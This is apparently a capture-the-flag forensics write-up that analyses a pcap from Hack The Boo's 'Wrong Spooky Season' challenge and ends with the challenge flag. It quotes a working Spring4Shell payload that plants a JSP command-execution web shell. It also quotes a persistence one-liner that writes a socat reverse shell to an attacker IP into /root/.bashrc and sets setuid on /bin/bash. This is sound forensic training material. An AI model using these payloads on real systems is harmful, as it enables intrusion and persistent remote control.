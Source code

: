 # Wrong Spooky Season



> “I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us. I was wrong.” Now there is an internal breach in the `Spooky Network` and you need to find out what happened. Analyze the the network traffic and find how the scary ghosts got in and what they did.

> Difficulty: Easy

{% file src="../../.gitbook/assets/forensics_wrong_spooky_season.zip" %}

Let's check file

```shell
┌──(kali㉿kali)-[~/Desktop/HackTheBoo/Wrong-Spooky-Season]
└─$ file forensics_wrong_spooky_season.zip 
forensics_wrong_spooky_season.zip: Zip archive data, at least v2.0 to extract, compression method=deflate
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/HackTheBoo/Wrong-Spooky-Season]
└─$ unzip forensics_wrong_spooky_season.zip 
Archive:  forensics_wrong_spooky_season.zip
  inflating: capture.pcap            
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/HackTheBoo/Wrong-Spooky-Season]
└─$ file capture.pcap                     
capture.pcap: pcap capture file, microsecond ts (little-endian) - version 2.4 (Ethernet, capture length 262144)
```

We have <mark style="color:yellow;">pcap</mark> file!

Use <mark style="color:red;">Wireshark</mark> open it.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

We have a lot of TCP and HTTP protocol. Let's check it

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Filter <mark style="color:blue;">HTTP</mark>, We can see <mark style="color:orange;">**ip.src = 192.168.1.180**</mark> <mark style="color:orange;"></mark><mark style="color:orange;"></mark> (Attacker) sent a POST request&#x20;

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Follow TCP stream we can see the URLencoded:

{% code overflow="wrap" %}
```java
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=e4d1c32a56ca15b3&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
{% endcode %}

Use CyberChef decode this

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```java
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{prefix}i java.io.InputStream in = %{c}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } %{suffix}i&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=e4d1c32a56ca15b3&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
{% endcode %}

Check google I know it is a Spring4Shell

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

&#x20;In this packet, Hacker is installing <mark style="color:red;">socat</mark> in the victim system and use reverse shell

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```basic
echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash
```
{% endcode %}

In this we can see base64 encode so suspicious, check it

```python
import base64
a = "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS"[::-1]
print(base64.b64decode(a))
```

We got flag:&#x20;

{% hint style="info" %}
HTB{j4v4\_5pr1ng\_just\_b3c4m3\_j4v4\_sp00ky!!}
{% endhint %}
